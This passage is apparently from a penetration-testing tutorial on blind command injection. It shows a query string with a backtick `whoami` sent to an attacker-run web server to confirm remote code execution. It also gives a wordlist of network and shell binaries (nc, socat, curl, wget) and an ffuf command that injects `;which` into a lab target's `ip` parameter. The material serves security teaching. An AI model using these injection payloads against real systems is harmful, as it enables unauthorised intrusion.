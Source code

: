 ```bash
user    0m0.003s
sys     0m0.003s
```

Next, we can achieve RCE[^1] by spawning up a web server and passing the desired command as a parameter (Figure 8).

```bash
http://172.31.150.94:9999/?q=`whoami`
```

<figure><img src="../../../.gitbook/assets/web_ci_blind_3.png" alt=""><figcaption><p>Figure 8: Achieving RCE via a blind CI vulnerability.</p></figcaption></figure>

## Capabilities Recon

When we achieve RCE, we can enumerate the target for useful binaries. The `w00tw00t` was added to the wordlist as an example of what the response of a non-existing binary looks like.

{% code overflow="wrap" %}
```bash
$ cat capability_checks_linux.txt
w00tw00t
wget
curl
fetch
gcc
cc
nc
socat
ping
netstat
ss
ifconfig
ip
hostname
php
python
python3
perl
java

$ ffuf -u "http://ci-sandbox/php/index.php?ip=127.0.0.1;which%20FUZZ" -w capability_checks_linux.txt -c

```

[^1]: Remote Code Execution